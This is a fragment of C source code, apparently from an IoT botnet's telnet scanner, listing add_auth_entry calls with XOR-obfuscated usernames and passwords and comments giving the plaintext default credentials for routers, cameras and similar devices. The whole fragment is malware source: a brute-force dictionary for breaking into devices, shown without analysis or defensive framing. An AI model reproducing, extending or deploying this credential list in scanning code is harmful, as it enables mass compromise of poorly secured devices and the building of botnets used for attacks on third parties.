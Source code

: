 ```c
    add_auth_entry("\x63\x46\x4F\x4B\x4C\x4B\x51\x56\x50\x43\x56\x4D\x50", "\x4F\x47\x4B\x4C\x51\x4F", 1); // Administrator admin
    add_auth_entry("\x51\x47\x50\x54\x4B\x41\x47", "\x51\x47\x50\x54\x4B\x41\x47", 1);      // service  service
    add_auth_entry("\x51\x57\x52\x47\x50\x54\x4B\x51\x4D\x50", "\x51\x57\x52\x47\x50\x54\x4B\x51\x4D\x50", 1); // supervisor supervisor
    add_auth_entry("\x45\x57\x47\x51\x56", "\x45\x57\x47\x51\x56", 1);                      // guest    guest
    add_auth_entry("\x45\x57\x47\x51\x56", "\x13\x10\x11\x16\x17", 1);                      // guest    12345
    add_auth_entry("\x45\x57\x47\x51\x56", "\x13\x10\x11\x16\x17", 1);                      // guest    12345
    add_auth_entry("\x43\x46\x4F\x4B\x4C\x13", "\x52\x43\x51\x51\x55\x4D\x50\x46", 1);      // admin1   password
    add_auth_entry("\x43\x46\x4F\x4B\x4C\x4B\x51\x56\x50\x43\x56\x4D\x50", "\x13\x10\x11\x16", 1); // administrator 1234
    add_auth_entry("\x14\x14\x14\x14\x14\x14", "\x14\x14\x14\x14\x14\x14", 1);              // 666666   666666
    add_auth_entry("\x1A\x1A\x1A\x1A\x1A\x1A", "\x1A\x1A\x1A\x1A\x1A\x1A", 1);              // 888888   888888
    add_auth_entry("\x57\x40\x4C\x56", "\x57\x40\x4C\x56", 1);                              // ubnt     ubnt
    add_auth_entry("\x50\x4D\x4D\x56", "\x49\x4E\x54\x13\x10\x11\x16", 1);                  // root     klv1234
    add_auth_entry("\x50\x4D\x4D\x56", "\x78\x56\x47\x17\x10\x13", 1);                      // root     Zte521
    add_auth_entry("\x50\x4D\x4D\x56", "\x4A\x4B\x11\x17\x13\x1A", 1);                      // root     hi3518
    add_auth_entry("\x50\x4D\x4D\x56", "\x48\x54\x40\x58\x46", 1);                          // root     jvbzd
    add_auth_entry("\x50\x4D\x4D\x56", "\x43\x4C\x49\x4D", 4);                              // root     anko
    add_auth_entry("\x50\x4D\x4D\x56", "\x58\x4E\x5A\x5A\x0C", 1);                          // root     zlxx.
    add_auth_entry("\x50\x4D\x4D\x56", "\x15\x57\x48\x6F\x49\x4D\x12\x54\x4B\x58\x5A\x54", 1); // root     7ujMko0vizxv
    add_auth_entry("\x50\x4D\x4D\x56", "\x15\x57\x48\x6F\x49\x4D\x12\x43\x46\x4F\x4B\x4C", 1); // root     7ujMko0admin
    add_auth_entry("\x50\x4D\x4D\x56", "\x51\x5B\x51\x56\x47\x4F", 1);                      // root     system
    add_auth_entry("\x50\x4D\x4D\x56", "\x4B\x49\x55\x40", 1);                              // root     ikwb
    add_auth_entry("\x50\x4D\x4D\x56", "\x46\x50\x47\x43\x4F\x40\x4D\x5A", 1);              // root     dreambox
    add_auth_entry("\x50\x4D\x4D\x56", "\x57\x51\x47\x50", 1);                              // root     user
    add_auth_entry("\x50\x4D\x4D\x56", "\x50\x47\x43\x4E\x56\x47\x49", 1);                  // root     realtek
    add_auth_entry("\x50\x4D\x4D\x56", "\x12\x12\x12\x12\x12\x12\x12\x12", 1);              // root     00000000
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x13\x13\x13\x13\x13\x13\x13", 1);              // admin    1111111
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x13\x10\x11\x16", 1);                          // admin    1234
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x13\x10\x11\x16\x17", 1);                      // admin    12345
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x17\x16\x11\x10\x13", 1);                      // admin    54321
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x13\x10\x11\x16\x17\x14", 1);                  // admin    123456
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x15\x57\x48\x6F\x49\x4D\x12\x43\x46\x4F\x4B\x4C", 1); // admin    7ujMko0admin
```
